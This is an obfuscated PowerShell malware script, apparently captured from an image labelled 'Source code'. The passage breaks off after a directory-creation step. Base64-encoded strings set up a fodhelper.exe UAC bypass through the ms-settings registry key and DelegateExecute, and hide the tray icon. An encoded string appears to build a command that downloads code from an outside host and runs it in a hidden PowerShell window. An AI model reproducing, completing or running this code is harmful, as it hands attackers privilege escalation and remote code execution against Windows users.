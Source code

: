 ${_\\/\/\//\/\\/\/\/\/\\\\\////\\\//\/\/\/\///////\\\_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('IwBOAG8AVAByAGEAeQBJAGMAbwBuAA==')))
${_um_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('SABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAQwBsAGEAcwBzAGUAcwBcAG0AcwAtAHMAZQB0AHQAaQBuAGcAcwBcAFMAaABlAGwAbABcAE8AcABlAG4AXABjAG8AbQBtAGEAbgBkAA=='))) 
${_dois_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('SABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAQwBsAGEAcwBzAGUAcwBcAG0AcwAtAHMAZQB0AHQAaQBuAGcAcwBcAFMAaABlAGwAbABcAE8AcABlAG4AXABjAG8AbQBtAGEAbgBkACIAIAAtAE4AYQBtAGUAIAAiAEQAZQBsAGUAZwBhAHQAZQBFAHgAZQBjAHUAdABlACIAIAAtAFYAYQBsAHUAZQAgACIA')))
${_tres_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('RABlAGwAZQBnAGEAdABlAEUAeABlAGMAdQB0AGUA'))) 
${_qtro_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('KABkAGUAZgBhAHUAbAB0ACkA')))
${_fiv_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGYAbwBkAGgAZQBsAHAAZQByAC4AZQB4AGUA')))
${_six_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZgBvAGQAaABlAGwAcABlAHIALgBlAHgAZQA=')))
${_sev_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('XABcAD8AXABDADoAXABXAGkAbgBkAG8AdwBzACAAXABTAHkAcwB0AGUAbQAzADIAXAA=')))
${_\\\} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('MQBuACAAaQBhAA=='))) 
${_\\///////////////////////_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QwA6AFwA')))
${_tx_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('LgB0AHgAdAA=')))
${_dx_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('LgBkAGwAbAA=')))
${_ex_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('LgBlAHgAZQA=')))
${_jl_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('agBsAGkA')))
${_ms_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('TQBTAFYAQwBSADEAMAAwAA==')))
${_wb_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VwBlAGIAVgBpAGUAdwAyAEwAbwBhAGQAZQByAA==')))
${_\\\\\\/|\\\\\\\\\\\\\\\\\_} = $env:COMPUTERNAME
${/////\\\\\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/} = "020424"
Function ____////////\\\/\/\/\/\_____ {
${_|||||||||||||________________} = "q","w","e","r","t","y","u","p","a","s","d","f","g","h","j","k","z","x","c","v","b","n","m"
${_|||||||||||||//////________________} = "2_","3_","4_","5_","6_","7_","8_","9_"
${_|||||||||||||//////\\\\\________________} = $null
${__|||||||||||||//////\\\\\________________} = Get-Random -InputObject ${_|||||||||||||________________} -Count 6
${__||||||_|||||||//////\\\\\________________} = Get-Random -InputObject ${_|||||||||||||//////________________} -Count 1
${__||||||_||||||_|//////\\\\\________________} = Get-Random -InputObject ${_|||||||||||||________________}.ToUpper() -Count 1
foreach($n in ${__|||||||||||||//////\\\\\________________}) {
${_|||||||||||||//////\\\\\________________} += $n
}
foreach ($n2 in ${__||||||_|||||||//////\\\\\________________}) {
${_|||||||||||||//////\\\\\________________} += $n2
}
foreach ($n3 in ${__||||||_||||||_|//////\\\\\________________}) {
${_|||||||||||||//////\\\\\________________} += $n3
}
return "_${_|||||||||||||//////\\\\\________________}"
}
${_\\\\\\/|\_/|/\\\___\\\\/|_} = ____////////\\\/\/\/\/\_____
${GER} = ${_\\\\\\/|\_/|/\\\___\\\\/|_}
${/\/\/\/\__\\//___} = "@14@12@17@24 @18@14@33 (@23@14@32-@24@11@19@14@12@29 @23@14@29.@32@14@11@12@21@18@14@23@29).@13@24@32@23@21@24@10@13@28@29@27@18@23@16('@17@29@29@25@28://@15@28@23@10@29.@28@17@24@25/@10/@0@8/@1@5@0@8@2@2/@30@25/@30@25')  | @25@24@32@14@27@28@17@14@21@21.@14@33@14 -@23@24@25 -@32@18@23 @1 -"
${_\\\\\__\/|\_/|/\\\___\\\\/|_} = "${_\\\\\\/|\_/|/\\\\\\\/|_}\${/////\\\\\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/}"
   if ((${_\\\\\__\/|\_/|/\\\___\\\\/|_} | Test-Path)) {exit}
    New-Item -ItemType directory -Path "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}"